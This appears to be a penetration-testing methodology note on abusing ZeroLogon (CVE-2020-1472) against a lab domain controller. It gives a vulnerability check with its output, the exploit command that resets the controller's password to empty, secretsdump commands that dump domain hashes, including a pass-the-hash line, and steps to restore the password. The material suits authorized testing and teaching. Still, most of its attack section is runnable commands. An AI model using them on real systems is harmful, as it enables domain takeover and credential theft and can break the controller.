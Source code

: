 # Abusing ZeroLogon

## Methodology

- Attacking DC and setting pass to null and taking over DC **CAREFUL COULD DESTROY DC**
- Check priorly if the target is vulnerable 
  *Note: Useful for a pentest to mention to the customer that they are vulnerable without actually doing the exploitation*
  ```
  ┌──(root💀kali)-[/home/kali/CVE-2020-1472]
  └─# python3 zerologon_tester.py HYDRA-DC 10.0.2.5
  Performing authentication attempts...
  ===================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================
  Success! DC can be fully compromised by a Zerologon attack.
  ```
- Changing the password to empty string: `python3 exploit.py HYDRA-DC 10.0.2.5`
- Check if it worked: `secretsdump.py -just-dc DOMAIN/DOMAIN-CONTROLLER\$@IP-OF-DC`
  Example: `secretsdump.py -just-dc MARVEL/HYDRA-DC\$@10.0.2.5`
- If we were able to dump hashes without typing password it means we owned the DC.
- Restore the machine
  - Use the admin hash to get the plain_password_hex `secretsdump.py administrator@10.0.2.5 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`
  - Restore the password `python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 10.0.2.5 -hexpass <Put here the hexpass you just got>`  
    The console should print `Change password OK`
- There is also another way to exploit zerologon without resetting the DC password, check out [Dirk-Jan Mollema's article about this](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

## Zerologon - Resources

  {% embed url="https://lisandre.com/archives/14978" %} Zerologon (CVE-2020-1472) by Lisandre {% endembed %}  
{% embed url="https://www.trendmicro.com/en_us/what-is/zerologon.html" %} What is ZeroLogon? {% endembed %}  
{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %} dirkjanm CVE-2020-1472 {% endembed %}  
{% embed url="https://github.com/SecuraBV/CVE-2020-1472" %} SecuraBV ZeroLogon Checker {% endembed %}  
